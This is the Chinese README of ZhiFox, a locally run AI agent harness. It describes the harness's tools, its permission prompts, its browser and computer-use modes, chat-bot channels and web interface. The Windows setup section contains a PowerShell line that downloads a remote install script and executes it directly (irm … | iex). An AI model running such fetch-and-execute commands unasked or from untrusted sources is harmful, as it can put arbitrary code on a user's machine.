




<div align="center">


# 智狐 · ZhiFox

**一个手写的 AI agent harness：运行在你自己电脑上的个人助手。**

[](https://github.com/Akxan/zhifox-agent-harness/actions/workflows/tests.yml)
[](LICENSE)
[](https://www.python.org/)
[](#harness-是什么)
[](#支持的模型)
[](#网页界面)
[](#界面是怎么做成三种语言的)
[](https://github.com/Akxan/zhifox-agent-harness/stargazers)
[](https://github.com/Akxan/zhifox-agent-harness/commits/main)

[English](README.md) | **简体中文**

</div>

<p align="center">
  <picture>
    <source media="(prefers-color-scheme: dark)" srcset="docs/assets/screenshot-dark-zh.webp">
    
  </picture>
</p>

智狐是一个运行在你自己电脑上的个人助手，有终端和网页两种界面，可以使用 Claude、GPT、Gemini、DeepSeek 四家的模型。
它同时也是一个用来学习的项目：没有用任何 agent 框架，让模型变成"助手"的那层代码（harness）全部是手写的，
每一部分都能在一个文件里看到。

"智狐"是它给人看的名字，英文名叫 ZhiFox，仓库名是 `zhifox-agent-harness`。代码里的包名和命令仍然叫 harness，
因为这个项目讲的就是 harness 是怎么回事。

助手能做这些事：管理待办、跨会话记住事情、读写文件和执行命令、联网搜索（只有 Claude 能用）、
在它自己的浏览器里打开和操作网页、到了时间提醒你或者定时替你做一件事（定时任务），还能看懂你发来的截图、图片、PDF 和 Word、Excel、PowerPoint 文件
（模型收不了的格式先转换，比如 SVG 画成图片、Office 文件取出文字；转不了的会说明可以怎么办）。
它用文件工具打开电脑上的图片（PNG、JPEG、GIF、WebP）时，交给模型的是图片本身，所以它能看自己刚存下的截图。
记忆、待办、定时任务、系统提示词都可以在网页里直接查看和修改，每一样也都能在访达里找到对应的文件。
费用随时看得到：每调用一次模型就更新估算，Claude 和 DeepSeek 的价格是内置的（对照两家官方核对过，
包括 DeepSeek 闲时的半价），各家的长对话都会自动压缩。
还可以装 Skill，教它按你的方法做某一类事（格式是开放的 [Agent Skills](https://agentskills.io) 标准，见下面的"Skill 是怎么工作的"）。
还可以通过 MCP 接上别人写好的工具（本地的程序或者网址），每次调用之前默认先问你。在 Claude Code、Cursor、VS Code、Codex、
Gemini CLI 这些工具里已经配好的 MCP 服务器、写好的 Skill 和 Agent，点几下就能导入（见下面的"从其他工具导入"）。
还可以让它用浏览器（browser use）：在设置里打开以后，助手在一个智狐自己启动的 Chrome 里打开网页、读、点、输入、截图。
这个 Chrome 用的是智狐自己的配置文件夹，和你平时用的浏览器完全分开，看不到你的任何登录；和它说话的是手写的 DevTools 协议客户端，
走管道、不开端口，别的程序连不上。看网页直接做；输入文字、提交表单、去一个新的网站先问你，往密码框、银行卡里输入不管选了哪一档都要问。
Claude 用 Anthropic 的浏览器工具包，GPT、Gemini、DeepSeek 用智狐自己写的一套浏览器工具（见下面的"浏览器：智狐自己的一个 Chrome"）。
作为进阶选项，还可以让它操作整台电脑（computer use）：默认关着，在设置里讲清楚风险、你确认以后才打开。助手看你的整个屏幕，
替你点鼠标、打字、按键（macOS 上用系统自带的 `screencapture` 和通过 `ctypes` 调用的 CoreGraphics，Linux 的 X11 桌面上用 `xdotool`
和 ImageMagick，不装任何新的依赖）。默认每一个动作都先问你；在网页的对话里，确认卡片上可以选这段对话里截图不再问、
或者点击和打字不再问；选了"全部自动允许"的话，操作电脑也不再问；危险的组合键（Mac 上的 ⌘Q，别的系统上的 Alt+F4、Ctrl+Alt+Del）
照样每次都问，不许碰的程序永远不碰。截图先缩小到模型收得下的大小，模型说的坐标再换算回屏幕上
真正的位置（Retina 屏幕也算对）。Claude 用 Anthropic 的电脑工具包，GPT、Gemini 用智狐自己写的替身工具（见下面的"操作整台电脑"）。
还可以接上你自己的机器人：Telegram、Discord、Slack、飞书、钉钉或者 QQ（网页上一个四步的向导，或者用命令行），
在手机上和它聊天，照片和文件也能发；反过来也行：要一张截图、一份报告，你批准以后它就以照片或文件的样子出现在聊天里。不需要公网地址，也不用开端口：是智狐主动去问 Telegram 有没有新消息（长轮询），
对别的平台是智狐自己连出去、一直开着一条 WebSocket（手写的 RFC 6455 客户端；飞书和钉钉用官方的 SDK，想用才装）。
只有用 6 位配对码配对过的那个账号能用；要执行命令、改文件时，聊天里会先问你：有按钮的平台带着"允许 / 拒绝"按钮，
没有按钮的平台请你回复"允许"或"拒绝"（在网页上答复也行，先到的算数）。WhatsApp 和企业微信要公网地址，以后再做。
它也能在服务器上一直运行：`harness serve` 不开浏览器，照样运行聊天通道和定时任务，日志按 journald 的习惯写，
收到 SIGTERM 时干净地退出，还附带一份 systemd 的配置；用 `harness channels setup` / `pair` 设置、配对好，
之后在聊天软件里让它做服务器上的杂事。
在自己的电脑上，`harness service install` 把它交给 launchd（macOS）或者 systemd（Linux）当后台服务：登录时自动启动、
出错退出后自己重启，不用开着终端，网页和聊天机器人也一直在；`harness service open` 打开网页，口令重启前后不变，开着的标签页更新以后也能接着用（见下面的"在后台一直运行"）。
还可以定制自己的 Agent：一个 Markdown 文件（和 Claude Code 的 subagent 是同一种格式）写着它擅长什么、能用哪些工具和模型、
怎么做事。主助手可以把一项任务交给它（子 Agent：它在自己的一段新对话里做，只把结论交回来），你也可以直接用它开始一段对话
（角色）。它能用的工具永远不会比叫它的那一方多，它要执行的命令照样先问你（见下面的"自定义 Agent：子 Agent 和角色"）。
网页界面里的每段会话都会自动保存在你自己的电脑上，随时可以从左侧的列表里打开接着聊，
也可以按标题和内容搜索。

## 快速开始

需要 macOS、Linux 或 Windows，以及 [uv](https://docs.astral.sh/uv/)。Windows 上的 PowerShell 写法见下面的[在 Windows 上使用](#在-windows-上使用)。

```bash
uv sync                 # 安装依赖
uv run harness --web    # 启动网页界面，会自动在浏览器里打开
```

第一次打开时，页面中间会提示还没有 API 密钥。点提示里的“去设置”（或右上角的按钮），填写至少一家的密钥，就可以开始对话了。
想用终端界面的话，填好密钥后运行 `uv run harness`。

### 支持的模型

| 厂商 | 在哪里申请 API 密钥 | `.env` 里的变量名 | 验证情况 |
|---|---|---|---|
| Claude (Anthropic) | [platform.claude.com](https://platform.claude.com) | `ANTHROPIC_API_KEY` | 用真实 API 实测过 |
| GPT (OpenAI) | [platform.openai.com](https://platform.openai.com) | `OPENAI_API_KEY` | 没有实测 |
| Gemini (Google) | [aistudio.google.com](https://aistudio.google.com) | `GEMINI_API_KEY` | 没有实测 |
| DeepSeek | [platform.deepseek.com](https://platform.deepseek.com) | `DEEPSEEK_API_KEY` | 实测过：保存密钥、同步模型、带文本附件的对话 |

GPT 和 Gemini 是对照各自的官方文档写的，并用本地的假服务器测试过，但还没有用真实的密钥测过。
第一次使用时如果报错，多半是那一家的接口有文档里没写到的细节。

各家的 API 都按用量计费，和它们聊天产品的订阅是分开的，一般需要先充值。
密钥可以在网页界面的设置里填，也可以把 `.env.example` 复制成 `.env` 后直接写在里面，两种方式存的是同一个地方。

### 在 Windows 上使用

智狐能在 Windows 10 和 11 上运行，每次推送都会在 `windows-latest` 上和 Ubuntu、macOS 一起跑一遍测试。在 PowerShell 里：

```powershell
powershell -ExecutionPolicy ByPass -c "irm https://astral.sh/uv/install.ps1 | iex"   # 装 uv，装好后另开一个 PowerShell 窗口
git clone https://github.com/Akxan/zhifox-agent-harness.git
cd zhifox-agent-harness
uv sync
uv run harness --web
```

（没装 Git 的话，从 GitHub 下载 ZIP 解压也行。）别的用法和另外两个系统一样，不同的是这几处：

| | 在 Windows 上 |
|---|---|
| 快捷键 | Mac 上写 ⌘ 的地方都是 Ctrl，⌥ 是 Alt（见下表）。按打开页面的那台电脑（浏览器）判断 |
| "在访达中显示" | **在文件资源管理器中显示**（`explorer /select,`）；Linux 上是"在文件管理器中显示"。按智狐所在的那台电脑判断，因为窗口是在那台电脑上打开的 |
| 执行命令（`run_command`） | 在 **PowerShell** 里运行：装了 PowerShell 7（`pwsh`）就用它，没装就用系统自带的 Windows PowerShell 5.1。工具说明和系统提示词里写明是哪一种，模型才会写 `Get-ChildItem` 而不是 `ls -la`。不运行你的 `$PROFILE`，执行策略照你的设置，输出按 UTF-8 读；"停止"或者超时会连同它启动的所有程序一起结束（Windows 的作业对象） |
| **自动允许只读命令** | 暂时一条命令都不放过：只读的判断认得的是 bash，不是 PowerShell，所以每条命令照样问，你自己加的"不用问的命令"也不算（"要不要先问你"的窗口、那个清单窗口和能力清单里都写着）。这一档读工作目录之外的文件照样不问 |
| 只有你自己能读 | Windows 没有 600、700 这种权限。智狐把 `data\` 和 `.env` 从上一层继承来的权限去掉，只留你自己的账号、SYSTEM 和管理员（见[数据存在哪里](#数据存在哪里)） |
| 浏览器 | Chrome；没装 Chrome 时用每台 Windows 10、11 都有的 Microsoft Edge。照样只走管道、不开端口（见[浏览器：智狐自己的一个 Chrome](#浏览器智狐自己的一个-chrome)） |
| 后台服务 | 用 **任务计划程序**，不是 launchd、systemd：命令还是那几条 `uv run harness service …`（见[在后台一直运行](#在后台一直运行)） |
| 操作整台电脑 | 暂时用不了。设置和能力清单里写着"Windows 上暂时不支持" |

网页界面的快捷键：

| 做什么 | macOS | Windows 和 Linux |
|---|---|---|
| 发送 / 换行 | Enter / Shift+Enter | Enter / Shift+Enter |
| 搜索会话 | ⌘F 或 ⌘K | Ctrl+F 或 Ctrl+K |
| 设置 | ⌘, | Ctrl+, |
| 换模型 | ⌘. | Ctrl+. |
| 编辑窗口里保存（记忆、任务、Skill、Agent、MCP 服务器、提示词） | ⌘Enter | Ctrl+Enter |
| 查看器里缩放图片 | ⌘+ / ⌘− / ⌘0，⌘ 加滚轮 | Ctrl++ / Ctrl+− / Ctrl+0，Ctrl 加滚轮 |
| 收起面板、关上窗口（有没保存的修改时先问一次） | Esc | Esc |

Windows 上暂时还不支持的：

- 操作整台电脑（还没有 Windows 上截图、动鼠标键盘的那一套）。
- 自动允许只读命令，见上面。
- 注销、关机时好好地收尾：Windows 会直接结束进程，正在进行的那一轮可能存不上。在终端里按 Ctrl-C、Ctrl+Break，
  以及 `uv run harness service stop`，都会好好地停下；直接关掉终端窗口不会。
- 后台服务在你注销时会停下（它以你的身份运行，不保存密码）。

### 网页界面

```bash
uv run harness --web
```

程序会在本机启动一个小型服务器，并在浏览器里打开聊天页面。页面上有：

- 会话栏（左侧）：所有会话按时间分组列出，点一下就能打开接着聊。鼠标移到一段会话上会出现三个按钮：
  在访达中显示（直接定位到这段会话在你电脑上的文件）、重命名、删除。
  每一轮对话结束时自动保存，不需要手动操作。左上角的按钮可以把它收起来；
  最下面那一行点一下，会打开保存会话的文件夹。
- 搜索（会话栏顶部，快捷键 ⌘F 或 Ctrl+F；⌘K、Ctrl+K 也可以。光标已经在搜索框里时再按一次 ⌘F，
  就是浏览器自带的"在页面里查找"）：在所有保存过的会话里找，标题和内容都找，不要求一字不差。
  多个关键词用空格隔开。结果里会显示命中的那段文字，点开（或按回车打开第一条）后页面直接滚到那个位置。
- 空白页：还没有内容时，问候语、输入框和几个可以直接点的例子摆在页面中间。
- 对话区：回复逐字显示，并按 Markdown 画出来：标题、粗体斜体、列表和任务列表、引用、表格（太宽时在自己的框里
  横向滚动）、代码块（标着语言，有简单的着色和"复制代码"按钮）。链接在新标签页里打开；图片不加载，只显示说明文字和网址。
  模型的思考过程可以点开查看；每次工具调用是一张卡片，点开能看到参数和结果，浏览器和操作电脑的每一步还带着一张小截图，点开看大图；鼠标移到助手的回复上会出现"复制"按钮，
  复制的是这条回复的 Markdown 原文。往上翻看旧内容时，新内容不会把你拽回底部。
  联网搜索以后写的回答带着来源：每句被引用的话后面有一个小小的编号（鼠标停在上面、或者用键盘移到它上面，会浮出网站、
  网页标题和被引的原文；点它在新标签页里打开那个网页），回答下面列出"资料来源"。这时"复制"会把编号写成 `[1]`，
  末尾附上标题和网址（见[联网回答的来源](#联网回答的来源)）。
- 确认卡片：助手要写文件或执行命令时出现，带"允许"和"拒绝"两个按钮。拒绝时可以顺便写一句原因。
- 编辑和重新生成：鼠标移到你的最后一条消息上，左边会出现"编辑"（输入框是空的时候按 ↑ 也行）。消息原地变成一个输入框，
  附件也在，可以一个个去掉；Enter 把改过的消息当作新的一轮发出去，Esc 或"取消"在丢掉改动之前先提醒一次。
  最后一个回答下面有"重新生成"：用一模一样的那条消息再问一次模型；这一轮没有回答（出错了、被你停下了）时，
  "重新生成"单独放在最后。这一轮做过可能改动了电脑的事（执行命令、改文件、调用 MCP 工具、操作整台电脑、在浏览器里点击或输入），
  会先把这些事列出来问你一次：倒回去的只是对话，做过的事不会撤销。只有最后一轮能编辑、重新生成
  （为什么，见[编辑最后一条消息、重新生成](#编辑最后一条消息重新生成)）。
- 输入框：Enter 发送，Shift+Enter 换行。助手工作时，发送按钮变成"停止"，可以打断正在进行的回复，
  正在运行的命令也会一起结束。输入框下面一直显示本次运行的估算费用。
- 附件：点输入框左边的回形针选文件，或者把文件拖到页面上，截图可以直接在输入框里粘贴（⌘V / Ctrl+V）。
  发送前，附件以小卡片的样子排在输入框上方，可以删掉某一个；一条消息最多 10 个，只带附件、不写字也能发。
  各家模型的接口只收几种图片、PDF 和文字，别的格式要先转换：

  | 文件 | 发出去的是什么 | Claude | GPT | Gemini | DeepSeek |
  |---|---|:-:|:-:|:-:|:-:|
  | PNG、JPEG、WebP | 图片本身。长边超过 2576 像素的先在浏览器里缩小，单张最大约 7 MB | ✅ | ✅ | ✅ | ❌ |
  | GIF、BMP、AVIF、HEIC、TIFF | 在浏览器里重新存成 PNG 或 JPEG（GIF 取第一帧）。HEIC 和 TIFF 要浏览器打得开才行，比如 Safari | ✅ | ✅ | ✅ | ❌ |
  | SVG | 画成 PNG。当前的模型看不了图的话，把 SVG 的源码当文字发 | ✅ | ✅ | ✅ | ✅ 发源码 |
  | PDF（最大 25 MB，不能有密码） | PDF 本身：文字和页面上的图都看得到 | ✅ | ✅ | ❌ | ❌ |
  | Word、Excel、PowerPoint（.docx、.xlsx、.pptx，最大 25 MB） | 智狐取出来的文字：Word 保留标题、列表和表格；Excel 每张工作表一节，格子之间用制表符隔开，日期还原成日期；PowerPoint 按播放顺序一张一张，带演讲者备注。图片和排版没有了，也会告诉模型这一点 | ✅ | ✅ | ✅ | ✅ |
  | 文本和代码（最多 40 万字） | 文字。认得 UTF-8、UTF-16 和 GBK 编码；扩展名不认识的，看内容是文字也收 | ✅ | ✅ | ✅ | ✅ |

  别的文件（压缩包、音频视频、.doc 这类旧版 Office、Pages、WPS、设了密码的文件）加的时候就会退回，并说明可以怎么转换。
  当前的模型收不了的附件，加的时候就会提示，并说可以换成哪几家。GPT 和 Gemini 两列是对照官方文档写的，用本地的假服务器测过，
  没有用真实的密钥测过。附件存在这段会话里，打开旧会话时缩略图还在。点对话里的任何一个附件，都会在下面"多媒体"一条说的查看器里打开。
- 多媒体（会话栏里"会话""任务"后面的第三个标签）：所有会话里发过的截图、图片、PDF、Word / Excel / PowerPoint
  和文本文件，最新的在前，按天分组。图片排成正方形的缩略图方格，文件一行一个，写着类型、大小和所在的会话。
  可以按种类筛选（按钮上是每一类的个数），按文件名和会话标题搜索，往下翻会接着读。刚发出去的附件马上就出现在这里。
  鼠标移到一项上，出现"在访达中显示""定位到会话""下载"三个按钮。
  点开是查看器（对话里的缩略图点开也是它）：用按钮、⌘/Ctrl 加 + − 0、触控板捏合或 ⌘/Ctrl 加滚轮放大缩小；
  放大以后拖动（或者滚动）来移动；双击在"适合屏幕"和"原始大小"之间切换；←/→ 在当前筛选的结果里（从对话里点开的，
  在这条消息的附件里）前后翻，手机上可以左右划。查看器里可以复制图片、下载原件、在访达中显示，或者"定位到会话"：
  打开那段会话（正在进行一轮的时候不行），滚到那个附件上，让它亮一下。文本和代码用等宽字体显示，可以复制。
  PDF 和 Office 文件显示一张说明卡片和下载按钮：页面的安全策略不允许嵌入 PDF，下载以后用系统自带的阅读器看。
  原件存在 `data/media/` 里，所以 Word、Excel、PowerPoint 留下的是原文件，不只是取出的文字。有多媒体库之前发的附件，
  从会话的对话历史里找回来（图片、PDF、文本）；旧的 Office 文件只剩当时取出的文字，多媒体里会注明。
  单个附件不能删除：它是对话记录的一部分。删除它所在的会话时，原件会一起删掉（别的会话也用到同一个文件的除外）。
- 换模型（顶栏中间写着当前模型的那个按钮，比如"Claude (Anthropic) · claude-opus-5-5"，快捷键 ⌘. 或 Ctrl+.）：
  在按钮正下方弹出一个小面板，手机上改成从屏幕底下升起来。模型按家分组（Claude、GPT、Gemini、DeepSeek），每一家写着
  有没有设置密钥（只显示最后 4 位）；还没有密钥的那一家有一个"填写 API 密钥 →"，点了直接打开设置、停在这一家的密钥那一栏。
  每个模型写着名字、能做什么、价格，现在用的那个打着勾。能做什么由程序算好：能联网（只有 Claude，而且联网搜索要开着）、
  看得懂图片、能读 PDF、只认文字（DeepSeek）、分时段计价（DeepSeek）。价格是每百万 token 多少美元，输入 / 输出
  （分时段计价的，鼠标移到价格上能看到闲时的价），没有的写"没有价格"。每一家有一个同步按钮，重新取一次它的模型列表；
  模型多的时候顶上一直有一个搜索框，在列表里直接打字也是搜索。
  选同一家的模型马上就换，对话接着进行，结果写在面板里；选另一家的会开始一段新对话，现在这段已经聊过的话，
  面板先在原地问一句："换到 GPT 会开始一段新对话。现在这段已经保存，随时可以回来接着聊。"用 Agent 开始的对话，
  换模型不换角色，面板底下会写明。键盘：↑/↓（Home / End 到头尾）移动，回车换过去，直接打字就是搜索，
  Esc 收起面板、焦点回到按钮上（正在原地问的时候，Esc 先收起这一问），开着的时候 Tab 只在面板里转。
  快捷键没有用 ⌘⇧M / Ctrl+Shift+M：Chrome 用它打开切换个人资料的菜单，Firefox 用它打开响应式设计模式。
- 设置（右上角的齿轮，快捷键 ⌘, 或 Ctrl+,）：填写或删除各家的 API 密钥、同步每家可用的模型列表、
  填写模型的价格，以及**编辑提示词**（告诉助手"你是谁、怎么做事"的那段话）。编辑框里可以预览实际发给模型的内容，
  下面列着可以用的占位符（比如 `{name}`、`{workspace}`），发送之前换成实际的值，别的花括号原样保留。
  改过的版本存在 `data/prompt.md`（也可以直接打开这个文件改），从下一段新对话开始生效：一段对话里途中换提示词，
  Claude 的缓存会失效、之前的思考内容也通不过校验；还没开始聊的这一段会马上换上。"恢复默认"回到内置的版本，
  程序升级后想用新的内置提示词，也是点它。选模型不在这里："当前模型"一栏只写着现在用的是哪个，旁边一个"换模型"按钮
  打开换模型的面板。为什么分开：换模型是聊着天随手就做的事，填密钥、改提示词是偶尔才做的事，放在同一个入口里，
  想换个模型得先在一大页设置里找。最下面还有几栏：
  - 每月预算（美元，可以不填）：这个月的花费超过它时提醒你一次（页面上弹一句；页面在后台、又允许了系统通知的话，
    再弹一个系统通知），不会拦住任何操作。调高以后又超过了新的数，会再提醒一次；提醒过的会记下来，重启也不会重复。
    填的数比这个月已经花的还少，面板上当场就会说。
  - 浏览器（默认关着）：让助手使用智狐自己的浏览器、要不要显示它的窗口、用哪个 Chrome，以及它的配置文件夹。
    见下面的"浏览器"。
  - 操作整台电脑（进阶，默认关着）：确认过风险以后让助手操作整台电脑；需要的权限、程序有没有；定时任务和聊天通道能不能用；
    不许碰的程序。见下面的"操作整台电脑"。
  - 导出全部数据：把整个数据文件夹打成一个 zip 下载下来。导出前显示文件夹有多大，导出后显示压缩包有多大。
    见下面的"备份和恢复"。
- 信息栏（右上角最右边的按钮展开或收起）：估算费用、四类 token 各占多少、未完成的待办、
  **智狐能做的事**（见下面的[智狐能做的事](#智狐能做的事功能清单)）。每调用一次模型就更新一次。费用卡片上"本次运行"的数字下面，是**今天**和**本月**一共花了多少
  （来自花费账本，重启不清零）、每月预算还剩多少；超过预算后会有一行红字（输入框下面的费用前面也会多一个红点）。
  点"花费明细"打开一个窗口：最近 30 天每天花了多少的柱状图（鼠标移上去、点一下，或者用左右方向键和 Home / End
  看某一天）、每个月的合计，以及按模型、按来源（对话还是定时任务）分开的数，可以选本月、最近 30 天或全部。
  没有价格的模型单独列出来，只有 token 数。点待办前面的圆圈就是完成；鼠标移上去，右边是和别的行一样的三个按钮
  （在访达中显示待办的文件、就地改内容和截止日期、删除前在原地确认）。定时任务的每一行、提示词的编辑框里，
  也有"在访达中显示"。
- 记忆（固定在会话栏顶部，后面是条数；点开是左右两栏的窗口：左边是列表，可以按名字搜，右边是选中的那一条；
  窄屏上一次只显示一边）：助手长期记忆里的每一个文件（`data/memories/`），写着所在的文件夹、大小和最后修改的时间。
  点一条可以看内容。鼠标移上去（或者用 Tab 移到它上面），右边会出现和会话行一样的三个按钮：
  "在访达中显示"会在文件管理器里选中这个文件；铅笔打开编辑，文件名和内容都能改（⌘Enter / Ctrl+Enter 保存，
  Esc 退出编辑，有没保存的修改会先提醒）；垃圾桶删除，删之前在原地确认一次。
  对话进行中不能改、不能删（助手可能正在改这一条）；你编辑的时候文件被别处改过了，保存前会先问要不要覆盖；
  太长读不全的、不是 UTF-8 的文件只能在文件夹里改。
  最下面的"在访达中打开记忆文件夹"（Linux 上是"打开记忆文件夹"）会在文件管理器里打开整个文件夹。
  列表自己会跟着变：助手在这一轮里记下的，这一轮还没结束就会出现；你在访达里改的、删的，切回这个页面时就会更新。
  助手工作时不能删，要等这一轮结束：它可能正在改的就是这一条。

<p align="center">
  
</p>

- 扩展 → Skill（右上角的拼图按钮）：装好的 Skill，每一个写着说明、有几个文件、从哪儿来的。
  每一行有一个开关，可以启用或停用；鼠标移上去（或者用 Tab 移到它上面），右边出现和会话行一样的三个按钮：
  "在访达中显示"（这个 Skill 的文件夹）、铅笔（编辑 SKILL.md，保存时检查 frontmatter；改了 name，文件夹也跟着改名；
  有没保存的修改会先提醒，和编辑记忆一样）、垃圾桶（删除，先在原地确认一次）。
  点一行打开它：说明和各项信息、让它用不了的问题，以及文件夹里的每一个文件，都能点开当纯文本看。列表上面是四个入口：
